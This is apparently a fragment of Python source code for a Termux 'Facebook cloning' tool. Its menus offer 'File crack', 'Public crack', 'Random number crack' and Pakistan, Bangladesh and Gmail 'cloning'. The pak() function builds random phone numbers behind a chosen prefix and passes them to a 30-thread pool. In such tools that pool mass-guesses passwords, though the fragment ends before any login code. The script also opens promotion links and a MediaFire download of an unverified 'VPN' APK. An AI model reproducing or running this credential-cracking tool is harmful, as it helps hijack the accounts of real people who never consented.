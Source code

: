                         elif xd in ['3','03']:
                                public()
                        elif xd in ['4','04']:
                                clear()
                                print(' [1] Pakistan cloning\n [2] Bangladesh cloning\n [3] Gmail cloning\n [0] Back menu')
                                linex()
                                x=input(' Choose: ')
                                if x in ['1','01']:
                                        pak()
                                elif x in ['2','02']:
                                        bd()
                                elif x in ['3','03']:
                                        gmail()
                                else:
                                        menu()
                        elif xd in ['5','05']:
                                gmail()
                        elif xd in ['6','06']:
                                wx=('Dsj9JMWoixk4Qsje0Ng3nA')
                                os.system(f'xdg-open https://chat.whatsapp.com/{wx}');menu()
                        elif xd in ['7','07']:
                                os.system('xdg-open https://mediafire.com/file/y1wvgc2zqqunxbn/AKING_VPN1.0.apk/file');menu()
                        elif xd in ['8','08']:
                                os.system('xdg-open https://www.facebook.com/groups/367443570366706/?ref=share');menu()
                        elif xd in ['0','00']:
                                exit(' Thanks for use 🥰 ')
                        else:
                                exit(' Option not found in menu...')
                else:
                        print("\033[1;31m Your Not Premium User...!\033[1;37m");time.sleep(1)
                        clear()
                        print('\033[1;31m First Read Note : ')
                        print("\033[1;36m We Not Responsible if facebook\n go on update you not get ok idz\n We don't responsible if you delete your \n termux and key need approve\033[1;37m")
                        linex()
                        linex();print (" Tools.. : Facebook Cloning");print (" Status  : \033[1;91mTrail\033[1;37m\n \033[1;31m\033[1;42mNote: If You Are Free User Don't Come IB\033[0;0m");linex();print(' [+] File crack\n [+] Create ids file\n [+] Public crack\n [+] Random number crack\n [+] Random gmail crack\n [+] Exit menu\n\x1b[1;97m [1] Upgrade Tool To (\x1b[1;95mPremium\x1b[1;37m)')
                        linex()
                        input(" Choose Option : ")
                        linex()
                        subprocess.check_output(["am", "start", url_wa+(tks)]);time.sleep(2)
                        print(' Run :  python bht.py')
                        exit()
        except ValueError:
                exit()
        except requests.exceptions.ConnectionError:
                print('\n No internet connection ...')
                exit()
def pak():
                user=[]
                clear()
                print('\033[1;31m Code example: 0306,0315,0335,0345')
                code = input('\033[1;37m put code: ')
                try:
                        limit = int(input('\033[1;31m example: 2000, 3000, 5000, 10000\n\033[1;37m put limit: '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(7))
                        user.append(nmp)
                with tred(max_workers=30) as Aking:     
                        clear()